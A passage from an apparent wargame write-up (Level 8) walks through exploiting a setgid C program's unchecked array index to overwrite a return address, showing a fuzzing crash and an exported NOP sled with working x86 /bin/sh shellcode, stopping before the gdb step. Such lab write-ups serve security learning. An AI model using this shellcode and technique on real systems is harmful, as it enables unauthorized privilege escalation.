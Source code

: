 ## Level 8

Inspecting the contents of `/var/challenge/level7`:

```bash
icyfire@razor level7 → ls /var/challenge/level7 -lha
total 20K
drwxr-x---  2 root lev7 4.0K Nov  4  2021 .
drwxr-xr-x 16 root sudo 4.0K Aug 27  2020 ..
-rwxr-sr-x  1 root lev8 7.5K Aug 27  2020 7
-rw-r--r--  1 root lev7  758 Aug 27  2020 7.c
```

Examining the program `7.c`:

```c
...
int table[] = {2, 3, 5, 7, 11, 13, 17};
...
loadTable(array);
index = (int) strtol(argv[1], NULL, 10);
value = (int) strtoul(argv[2], NULL, 16);
...
array[index] = value;
```

Here we can see that the program accepts two arguments, the first argument is an index and the second argument is a value. The first argument is converted to a  integer and the second argument is converted to an unsigned  integer. The value in the array with index given as the first parameter is changed to the value given as the second parameter. Here we can use integer overflow to write beyond the array and overwrite the return address. We can use the environment of the program to store shell code which starts `/bin/sh` and then overwrite the return address to point to the same.

Using fuzzing we can find an input which creates a segmentation fault in the program:

```bash
icyfire@razor level7 → /var/challenge/level7/7 11 0
Updating table value at index 11 with 0: previous value was -136388891
The updated table is:
0: 2
1: 3
2: 5
3: 7
4: 11
5: 13
6: 17
Segmentation fault
```

Now we can use `gdb` to craft an exploit. Firstly export the shell code to the environment with a NOP sled:

```bash
icyfire@razor level7 → export _SHELLCODE=$(python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

